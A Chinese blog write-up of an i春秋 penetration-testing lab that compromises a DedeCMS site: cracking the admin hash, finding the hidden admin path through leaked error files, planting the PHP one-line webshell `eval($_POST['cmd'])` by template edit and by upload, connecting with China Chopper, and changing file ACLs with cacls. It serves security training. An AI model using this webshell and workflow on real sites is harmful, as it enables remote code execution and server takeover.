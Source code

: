 ```yaml
---
title: 【i春秋】渗透测试入门 —— 真的很简单
copyright: true
date: 2018-03-06 15:56:26
tags: [i春秋,pentest,exploit,writeup,CMS,crypto,web,php,trojan,vulnerability,privilege,cmd]
categories: [InfoSec,Pentest]
---
```


# 0x00 前言

本题是渗透测试入门的一道基础题，虽然美其名曰“真的很简单”，但对于新手还是有一定挑战性的，实践并掌握本题中的所有知识点，对渗透测试的基本理解有很大帮助。

此题的目标是对一个**基于[织梦 CMS](http://www.dedecms.com/) 的网站**进行渗透测试，找到网站登录后台，继而入侵服务器找到存放 flag 的文件。从实验手册上，可看出其中还会涉及到简单的提权过程。

- 题目链接：[https://www.ichunqiu.com/battalion?t=2&r=54399](https://www.ichunqiu.com/battalion?t=2&r=54399)
- 解题链接：[https://www.ichunqiu.com/vm/51123/1](https://www.ichunqiu.com/vm/51123/1)

<!-- more -->

![guide](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/guide.png)

# 0x01 网站管理员的密码是多少？

第 1 题相对简单，在实验环境内根据提示打开下载链接 `http://file.ichunqiu.com/49ba59ab`，接着下载爆破工具 `dedecms.exe`：

![dedecms_download](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_download.png)

打开工具，输入目标 URL，一键爆破得到管理员的账号 `ichunqiu` 与密码哈希值 `adab29e084ff095ce3eb`：

![dedecms](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms.png)

仔细数数，发现密码哈希值是 20 位的（注：此处的“位”均为十六进制，而非二进制），上网一查才发现这是织梦 CMS 的特性，实现过程可参考 [DEDECMS的20位MD5加密密文解密示例介绍](http://www.jb51.net/cms/104721.html)：

![dedecms_md5](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_md5.png)

将 20 位的哈希值用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 解密，得到密码明文 `only_system`：

![password](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password.png)

为验证 20 位的 MD5 哈希算法规则，可进一步用 [MD5加密工具](https://md5jiami.51240.com/) 对 `only_system` 加密，发现其 16 位哈希值确实能由 20 位哈希值去掉前 3 位与后 1 位所得:

![password_verify](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password_verify.png)

# 0x02 网站后台目录名是什么？

第 2 题上来先尝试织梦 CMS 的默认后台路径 `/dede/index.php` 或 `/dede/login.php`，得到 404 的结果也是意料之中，即现在的问题是要找出修改后的后台目录名。

打开实验工具箱，发现【目录扫描】文件夹，以【御剑后台扫描工具】为例，对目标 URL 扫描后得到如下结果：

![directory_scan](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/directory_scan.png)

注意，为了保证扫描效率，一般后台扫描工具都是采用字典扫描，而不是暴力穷举，因此**不同扫描器得到的结果不完全相同，尽可能使用多种扫描器，偏僻怪异的名字可能扫描不出来**。

笔者采用了多种扫描器，并对其可能的结果进行验证，都一无所获，即可**判断此后台目录名具有较强的个性或随机性**。

所以要转换思路，看看织梦 CMS 是否存在后台地址信息泄露的漏洞。果不其然，发现从报错文件 `/data/mysql_error_trace.inc` 或 `/data/mysqli_error_trace.inc` 中，可得到泄露的后台路径，具体可参考：

> [dedecms的各种卡哇伊小漏洞](http://blog.csdn.net/wangyi_lin/article/details/9286937)
> [dedecms(织梦)漏洞&exp整理](http://www.cnblogs.com/hookjoy/p/6996820.html)
> [php学习之织梦dedecms漏洞讲解](http://www.daixiaorui.com/read/14.html)

最后在 `/data/mysqli_error_trace.inc` 中获得后台目录名为 `lichunqiul`：

![mysqli_error_trace](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/mysqli_error_trace.png)

对其进行验证，终于看到了后台登录页面：

![login](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/login.png)

# 0x03 管理员桌面中 flag 文件信息是？

用账号 `ichunqiu` 与密码 `only_system` 登录后台后，根据实验手册，要想办法利用[中国菜刀](http://www.zhongguocaidao.com/)连接服务器，获得 webshell，进而查看 flag 文件中的信息。

## 获取 webshell

首先我们需要在服务器插入[一句话木马](https://baike.baidu.com/item/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC)，然后才能用菜刀连接，获得 webshell。这里介绍两种插入一句话木马的方法。

### 直接修改模板 PHP 源码

依次点击 **模板 -> 标签源码管理**，以编辑第一个模板 `adminname.lib.php` 为例：

![template_list](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_list.png)

在模板源码第一行插入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![template_edit](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_edit.png)

接着在工具箱【webshell】文件夹打开【中国菜刀】：

![chopper](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper.png)

在 **添加SHELL** 输入框中，输入被插入木马模板文件的地址 `http://www.test.ichunqiu/include/taglib/adminname.lib.php`，其右侧填入木马中接收 POST 请求数据的 key 字段 `cmd`，脚本类型为 `PHP(Eval)`，字符编码为 `GB2312`，设置完成后点击 **添加**：

![add_shell_1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_1.png)

若参数设置正确，双击所添加的条目，即可连接服务器的资源管理器，进入到模板文件所在的目录：

![manager_1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_1.png)

### 上传一句话木马文件

先在本地创建文件 `trojan.php`，写入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![trojan_edit](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_edit.png)

再依次点击 **系统 -> 系统基本参数 -> 附件设置**，如下图更改允许上传的文件类型，否则木马将上传失败：

![file_type](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/file_type.png)

最后点击 **核心 -> 上传新文件**，如下图所示上传木马：

![trojan_upload](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_upload.png)

上传完毕后点击 **核心 -> 附件数据管理 -> 更改**，即可查看木马的路径：

![trojan_path](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_path.png)

接着利用菜刀添加SHELL，步骤同上，只不过地址更改为 `http://www.test.ichunqiu/uploads/soft/180307/1_1503138291.php`：

![add_shell_2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_2.png)

若参数设置正确，双击连接服务器的资源管理器，即可进入到木马所上传的目录：

![manager_2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_2.png)

## 权限提升

进入到管理员桌面可看到 flag 文件 `flag~ichunqiu.txt`：

![manager_flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_flag.png)

但双击后未显示任何内容，估计是权限受限。接下来可右键点击条目，祭出虚拟终端，即 webshell 的命令行模式：

![chopper_terminal](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper_terminal.png)

先切换至管理员桌面，用 `cacls` 命令查看 flag 文件的[访问控制列表（ACL）](https://baike.baidu.com/item/%E8%AE%BF%E9%97%AE%E6%8E%A7%E5%88%B6%E5%88%97%E8%A1%A8)，后用 `whoami` 命令查看用户名，发现 `authority\system` 用户对于 flag 文件的权限是 N，即无权限，用 `type` 命令查看 flag 文件果然是拒绝访问的：

![deny](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/deny.png)

用 `cacls` 命令更改了访问权限后，`authority\system` 用户对于 flag 文件的权限变成了 F，即所有权限，再次查看 flag 文件内容即可看到 `key{il2o3l}`：

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/flag.png)

注意提交答案的时候有个坑，记得先拆掉包装，只需提交 `il2o3l` 即可。最后附上 `cacls` 命令的用法：

![cacls](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/cacls.png)

# 0x04 小结

所谓条条大路通罗马，以上思路可能只是完成目标的其中一种方法。本人能力有限，面对工具箱中种类繁多的各种工具不能信手拈来，对于 Windows 命令的使用也掌握不深，尤其是实验手册中提到的 `net.exe` 工具尚未使用，因为在 webshell 中使用 `net` 命令也是拒绝访问的，这个问题还请各位前辈不吝赐教。

最后向以下两篇参考 writeup 的作者表示致谢！

> [09-在线挑战详细攻略-《真的很简单》](https://bbs.ichunqiu.com/thread-19282-1-1.html)
> [爱春秋-WEB渗透实验-真的很简单-实验记录](https://bbs.ichunqiu.com/thread-15780-1-1.html)